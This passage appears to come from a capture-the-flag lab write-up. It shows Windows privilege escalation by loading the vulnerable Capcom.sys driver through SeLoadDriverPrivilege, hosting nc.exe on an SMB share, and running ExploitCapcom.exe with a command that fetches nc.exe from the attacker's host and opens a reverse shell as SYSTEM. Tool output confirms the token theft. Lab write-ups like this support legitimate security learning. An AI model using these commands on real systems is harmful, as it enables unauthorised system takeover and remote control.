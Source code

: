 In order to exploit, we first have to load the driver and then define the command to be run.

```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe LOAD C:\Users\svc-print\Documents\Capcom.sys
[*] Service Name: mptiyzkr`ùV
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????????
NTSTATUS: 00000000, WinError: 0
*Evil-WinRM* PS C:\Users\svc-print\Documents>
```

We have successfully loaded the driver. Now we should be able to run arbitrary commands as system. For this we simply have to supply `EXPLOIT "COMMAND"` to the exploit-program. I am going to host nc.exe via smb using my [SMBServ script](https://github.com/chr0x6eos/SMBServ).

```bash
root@darkness:~# smbserv -f /usr/share/windows-binaries/nc.exe 

#####################
# Simple SMB-Server #
#    By Chr0x6eOs   #
#####################

Github: https://github.com/chr0x6eos

About:
A simple SMB-server running in docker.
By default current directory will be served.

[+] Smb-server (ID: 1466ac9ea9d7) started!
[+] DONE! :) Container (ID: 1466ac9ea9d7) is now running and serving...
Your files are available at:
  \\172.17.0.1\share\
  \\192.168.202.138\share\
  \\127.0.0.1\share\
  \\10.10.14.3\share\
```

Now that the smb-server is running, we can exploit the vulnerability and should get a reverse-shell as system.

```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe EXPLOIT "\\10.10.14.3\share\nc.exe 10.10.14.3 443 -e powershell.exe"
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001CDA9B00008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
```
